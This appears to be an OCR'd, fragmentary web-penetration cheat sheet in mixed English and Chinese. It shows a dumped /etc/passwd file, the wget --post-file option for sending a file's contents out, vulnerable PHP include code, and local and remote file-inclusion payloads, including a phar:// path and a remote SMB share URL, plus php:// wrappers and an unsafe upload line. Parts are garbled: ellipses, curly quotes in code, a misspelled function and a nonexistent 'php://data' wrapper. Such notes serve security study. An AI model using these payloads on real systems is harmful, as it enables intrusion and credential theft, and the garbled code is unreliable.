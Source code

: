 	root:x:0:0:root:/root:/bin/bash
	
	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
	
	bin:x:2:2:bin:/bin:/usr/sbin/nologin
	
	sys:x:3:3:sys:/dev:/usr/sbin/nologin
	
	sync:x:4:65534:sync:/bin:/bin/sync
	
	games:x:5:60:games:/usr/games:/usr/sbin/nologin
	
	man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
	
	lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
	
	… … … … …

 

	$ ~ man wget

	HTTP options:
	
	……
	
	–post-file=FILE        use the POST method; send contents of FILE.

……

3. LFI/RFI

    <?php
    include($_GET[‘file’]);?>
    index.php?file=xxx/yyy/zzz.jpg

3.1 LFI

	<?php
	
	if (strtolower( substr( $include_file, -4 ) ) == “.php” )
	
	{
	
	require( $_GET[file] );
	
	}?>

	index.php?file=phar:///var/www/uploads/xxx.jpg/1.php

3.2 RFI

    allow_url_include = on
    Index.php?file=\\192.168.100.1\share\xxx.php

3.3 各种php协议
	php://input
	php://filter
	php://data
	
	4. File Upload
	
	move_upload_file($_FILE[“file”][“tmp_name”],$_FILE[“file”][“name”]);
	
	 